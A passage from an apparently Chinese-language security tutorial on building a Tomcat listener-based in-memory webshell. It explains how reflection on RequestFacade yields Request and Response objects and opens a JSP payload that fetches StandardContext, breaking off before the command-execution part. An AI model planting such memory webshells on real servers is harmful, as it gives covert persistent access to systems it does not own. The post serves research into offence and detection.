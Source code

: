 RequestFacade 实现了 HttpServletRequest 接口, 到这里其实已经可以正常解析 request 请求了

剩下的就是如何找到一个类似的 response 对象

注意到 RequestFacade 存在 request 属性, 声明类型为 Request, 于是查看 Request 的定义

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051653052.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051653889.png)

发现存在 response 属性, 声明类型为 Response

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051654992.png)

也存在对应的 getter 和 setter

查看 Response 的定义

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051654004.png)

Response 实现了 HttpServletResponse 接口, 那么同样的也可以正常处理 response 响应

有关 Request 和 Response 的参考文章

[https://blog.csdn.net/li295214001/article/details/48133989](https://blog.csdn.net/li295214001/article/details/48133989)

[https://blog.csdn.net/aesop_wubo/article/details/7630440](https://blog.csdn.net/aesop_wubo/article/details/7630440)

其实两者都是 tomcat 内部的对象, 封装了底层的 http 请求, 而 RequestFacade 是 Request 的又一层封装

下面我们用反射来实现上面获取的过程

```java
RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
Field requestField = RequestFacade.class.getDeclaredField("request");
requestField.setAccessible(true);
Request request = (Request) requestField.get(requestFacade);
Response response = request.getResponse();
```

后面就能直接通过 request 和 response 来正常的接收参数和输出回显

## 编写内存马

同样这里以 JSP 为例, 并且用 request 获取 StandardContext

payload 如下

```java
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%

    // 获取 StandardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctxField = servletContext.getClass().getDeclaredField("context");
    appctxField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctxField.get(servletContext);
    Field stdctxField = applicationContext.getClass().getDeclaredField("context");
    stdctxField.setAccessible(true);
```